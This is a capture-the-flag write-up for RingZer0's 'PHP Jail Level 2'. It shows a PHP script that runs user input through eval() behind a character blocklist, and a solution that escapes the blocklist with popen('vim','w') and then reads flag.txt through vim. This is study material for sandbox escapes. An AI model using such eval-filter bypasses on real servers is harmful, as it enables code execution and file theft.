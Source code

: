 # **PHP Jail 2**

```shell=
ubuntu@ubuntu-virtual-machine:~$ ssh level2@challenges.ringzer0team.com -p 10224 

level2@challenges.ringzer0team.com's password: 

RingZer0 Team Online CTF

PHP Jail Level 2
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(\/|a|c|s|require|include|flag|eval|file)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```

![](https://i.imgur.com/DBMLNYy.png)

Enter `popen('vim','w');`

![](https://i.imgur.com/duulj2n.png)

Enter `:r flag.txt` to read file into buffer.

![](https://i.imgur.com/30AzZ3T.png)

Press any key to continue editing, then you'll see the buffer which load the `flag.txt`.

![](https://i.imgur.com/OBsFbVv.png)

```
FLAG-XXXXXX
```
